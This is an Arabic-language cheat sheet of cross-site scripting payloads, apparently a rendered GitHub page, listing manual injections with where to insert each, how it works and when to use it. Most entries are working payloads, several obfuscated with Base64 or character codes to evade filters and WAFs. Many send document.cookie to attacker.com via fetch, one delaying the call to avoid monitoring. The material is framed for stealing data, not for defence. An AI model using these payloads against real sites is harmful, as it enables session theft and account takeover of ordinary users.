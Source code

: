 
## جميع المحاولات الممكنة لاستخدام الحقن المتقدمة
في استخدام الحقن المتقدمة، المحاولات تركز على تصميم شيفرات تتجاوز الفلاتر وتستغل سياقات معقدة. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر نقاط الإدخال العرضة.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر إدخال شيفرة في معلمات URL، حقول التعليقات، أو أوصاف الملف الشخصي. الهدف هو تنفيذ JavaScript بطرق تتجنب الكشف.

#### أ. حقن مع تعتيم (Obfuscation)  { #XSS_Obfuscation_payloads  }

استخدام تقنيات التعتيم لإخفاء الشيفرة.
- **الحقن**: `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
  - **كيف يعمل**: يفك تشفير Base64 لتنفيذ تنبيه.
  - **متى يُستخدم؟**: لتجاوز فلاتر WAF أو أنظمة الكشف.
- **الحقن**: `<img src=x onerror=eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))>`
  - **الإدخال**: `https://example.com/?q=<img src=x onerror=eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))>`
  - **كيف يعمل**: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
  - **متى يُستخدم؟**: لسرقة البيانات مع تجاوز فلاتر `<script>`.
- **الحقن**: `<script>alert(String.fromCharCode(88,83,83))</script>`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<script>alert(String.fromCharCode(88,83,83))</script>`
  - **كيف يعمل**: ينشئ تنبيهًا باستخدام رموز ASCII.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر النصوص المباشرة.
- **الحقن**: `<img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+btoa(document.cookie)), 1000)">`
  - **الإدخال**: أدخل في حقل تعليق: `<img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+btoa(document.cookie)), 1000)">`
  - **كيف يعمل**: يؤخر إرسال البيانات المشفرة بـ Base64 لتجنب الكشف.
  - **متى يُستخدم؟**: لتجنب أنظمة المراقبة الفورية.
- **الحقن**: `<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))</script>`
  - **الإدخال**: أدخل في منشور: `<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))</script>`
  - **كيف يعمل**: يشفر أمر `fetch` باستخدام ASCII لإرسال ملفات تعريف الارتباط.
  - **متى يُستخدم؟**: لتجاوز فلاتر صارمة.

#### ب. حقن بدون `<script>`
{  #XSS_Idea_for_script_tag }
استخدام وسوم أو أحداث بديلة لتجنب الحظر.
- **الحقن**: `<svg onload=alert('XSS')>`
  - **الإدخال**: `https://example.com/?q=<svg onload=alert('XSS')>`
  - **كيف يعمل**: ينفذ تنبيهًا عند تحميل وسم SVG.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `<script>`.
- **الحقن**: `<img src=x onerror=fetch('http://attacker.com/log?c='+document.cookie)>`
  - **الإدخال**: أدخل في حقل تعليق: `<img src=x onerror=fetch('http://attacker.com/log?c='+document.cookie)>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند فشل تحميل الصورة.
  - **متى يُستخدم؟**: لسرقة البيانات تلقائيًا.
- **الحقن**: `<details open ontoggle="fetch('http://attacker.com/log?c='+document.cookie)">`
  - **الإدخال**: أدخل في منشور: `<details open ontoggle="fetch('http://attacker.com/log?c='+document.cookie)">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند تبديل حالة وسم `<details>`.
  - **متى يُستخدم؟**: لاستخدام أحداث غير شائعة.
- **الحقن**: `<video><source onerror=fetch('http://attacker.com/log?c='+document.cookie)></video>`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<video><source onerror=fetch('http://attacker.com/log?c='+document.cookie)></video>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند فشل تحميل مصدر الفيديو.